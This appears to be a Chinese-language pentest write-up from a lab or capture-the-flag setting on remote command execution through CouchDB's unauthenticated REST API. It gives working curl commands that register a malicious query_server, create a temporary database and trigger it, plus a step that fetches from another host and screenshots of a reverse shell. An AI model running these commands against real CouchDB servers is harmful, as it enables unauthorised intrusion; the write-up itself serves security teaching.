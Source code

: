 ```yaml
---
layout:     post
title:      "Remote Command Execution via CouchDB"
date:       2016-09-11
categories: [Pentest, Database, Remote Command Execution, CouchDB]

---
```



### 背景介绍
 CouchDB是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB可以安装在大部分POSIX系统上，包括Linux和Mac OS X。

### 漏洞介绍
Couchdb默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

使用nmap扫描可发现couchdb的banner信息
![couchdb默认端口](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-nmap.png)

执行命令需要使用admin权限，如果数据库存在未授权则可直接利用，若有账号认证则需要想办法获取admin的密码，当然可通过burpsuit去爆破/_utils/，也可以通过metasploit中的auxiliary/scanner/Couchdb/Couchdb/Couchdb/Couchdb_login模块直接进行爆破
CouchDB提供了一个可视化界面工具，在浏览器中运行“http://127.0.0.1:5984/_utils/”，即可见到如下所示的界面。
![账号认证](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-admin.png)
### 漏洞利用
这里举例有账号认证的情况，我们需要使用admin身份登录然后获取cookie，再使用curl命令与api进行交互，实现数据库操作
![获取Cookie](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-cookie.png)

远程命令执行示例

>1. 新增query_server配置，写入要执行的命令；
>2. 新建一个临时库和临时表，插入一条记录；
>3. 调用query_server处理数据

```bash
curl -X PUT 'http://192.168.199.181:5984/_config/query_servers/cmd' -d '"python /tmp/back.py"'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"

curl -X PUT 'http://192.168.199.181:5984/teeest'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X PUT 'http://192.168.199.181:5984/teeest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X POST 'http://192.168.199.181:5984/teeest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"
```

远程下载反弹脚本
![写入命令](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-command.png)
成功监听到下载请求
![监听下载](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-download.png)
添加执行权限
![添加执行权限](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-chmod.png)
执行反弹脚本
![执行反弹](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-backshell.png)
getshell，读取flag
![成功](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-over.png)
> 同样你也可以不用登录获取Cookie，直接在curl请求中带入账号密码也是可以的，类似于这样，执行效果是一样的，这种方法可能更方便点吧

```bash
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/_config/query_servers/cmd' -d '"curl http://192.168.199.140/flag"'
"curl http://192.168.199.140/flag"
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/wa'
{"ok":true}
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/wa/haha' -d '{"_id":"770895a97726d5ca6d70a22173005c7a"}'{"ok":true,"id":"haha","rev":"1-967a00dff5e02add41819138abb3284d"}
root@Urahara:~# curl -X POST 'admin:1qaz2wsx@192.168.199.165:5984/wa/_temp_view?limit=14' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'
```


### 参考
[CouchDB未授权访问导致执行任意系统命令漏洞](https://www.secpulse.com/archives/45917.html)

[CouchDB未授权访问漏洞导致系统命令执行](http://blog.nsfocus.net/Couchdb/Couchdb-unauthorized-access-vulnerability-system-command/)